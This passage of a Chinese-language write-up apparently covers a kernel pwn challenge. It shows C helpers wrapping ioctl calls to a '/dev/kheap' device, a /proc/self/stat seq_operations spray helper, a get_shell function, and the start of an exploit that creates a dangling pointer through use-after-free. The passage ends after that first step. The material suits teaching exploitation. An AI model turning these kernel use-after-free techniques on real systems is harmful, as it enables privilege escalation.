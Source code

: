 之后，我们通过包装 `ioctl` 函数，将它实现的几个功能抽象出来方便调用。

```c
int dev_fd;
int seq_fd;

void new(uint64_t idx)
{
  struct info arg={idx,NULL};
  ioctl(dev_fd,0x10000,&arg);
}

void delete(uint64_t idx)
{
  struct info arg={idx,NULL};
  ioctl(dev_fd,0x10001,&arg);
}

void choose(uint64_t idx)
{
  struct info arg={idx,NULL};
  ioctl(dev_fd,0x10002,&arg);
}

int seq_open()
{
  int seq;
  if ((seq=open("/proc/self/stat",O_RDONLY))==-1)
  {
    puts("[X] Seq Open Error");
    exit(0);
  }
  return seq;
}

void get_shell()
{
  system("/bin/sh");
  exit(0);
}
```



此时，我们就可以开始编写 exp 了

首先，我们先造一个悬挂指针 idx=0

```c
int main()
{
  save_state();
    
  dev_fd=open("/dev/kheap",O_RDWR); // Kheap Device FD
  if (dev_fd<0)
  {
    puts("[X] Device Open Error");
    exit(0);
  }
  
  new(0);
  choose(0);
  delete(0);
}
```
